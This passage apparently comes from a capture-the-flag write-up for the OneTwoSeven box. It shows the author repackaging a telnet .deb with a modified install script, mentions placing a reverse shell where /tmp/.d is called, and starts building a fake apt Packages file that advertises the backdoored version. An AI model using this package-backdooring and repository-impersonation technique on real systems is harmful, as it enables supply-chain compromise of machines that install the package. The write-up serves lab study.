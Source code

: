     update-alternatives --install /usr/bin/telnet telnet /usr/bin/telnet.netkit 100 \
                --slave /usr/share/man/man1/telnet.1.gz telnet.1.gz \
                    /usr/share/man/man1/telnet.netkit.1.gz
    
    # Automatically added by dh_installmenu
    if [ "$1" = "configure" ] && [ -x "`which update-menus 2>/dev/null`" ]; then
        update-menus
    fi
    # End automatically added section
    

Since I already have access to the box, this gives me flexibility to run
different things without making an entirely new package. Were I trying to get
access to a new box, I would put a reverse shell in where I call `/tmp/.d`
now.

Now repackage it:

    
    
    root@kali# dpkg-deb -b modified_telnet/ telnet_0.17-42_amd64.deb
    dpkg-deb: building package 'telnet' in 'telnet_0.17-42_amd64.deb'.
    

### Repo Files

To impersonate a repository, I need to have a few files in place.

#### Packages

A `Packages` file gives the current versions of packages available. I’m going
to create one with just `telnet` in it, and update it to advertise my
backdoored version as the latest.

I’ll get the Packages data from OneTwoSeven:

    
    
    www-admin-data@onetwoseven:/$ cat /var/lib/apt/lists/de.deb.devuan.org_merged_dists_ascii_main_binary-amd64_Packages | grep -A 18 "Package: telnet$"
    Package: telnet
    Version: 0.17-41
    Installed-Size: 157
    Maintainer: Mats Erik Andersson <mats.andersson@gisladisker.se>
    Architecture: amd64
    Replaces: netstd
    Provides: telnet-client
    Depends: netbase, libc6 (>= 2.15), libstdc++6 (>= 5)
    Description: basic telnet client
    Description-md5: 80f238fa65c82c04a1590f2a062f47bb
    Source: netkit-telnet
    Tag: admin::login, interface::shell, network::client, protocol::ipv6,
     protocol::telnet, role::program, uitoolkit::ncurses, use::login
    Section: net
    Priority: standard
    Filename: pool/DEBIAN/main/n/netkit-telnet/telnet_0.17-41_amd64.deb
    Size: 72008
    MD5sum: 3409d7e40403699b890c68323e200874
    SHA256: 95aa315eb5b3be12fc7a91a8d7ee8eba7af99120641067ec39694200e034a5ae
    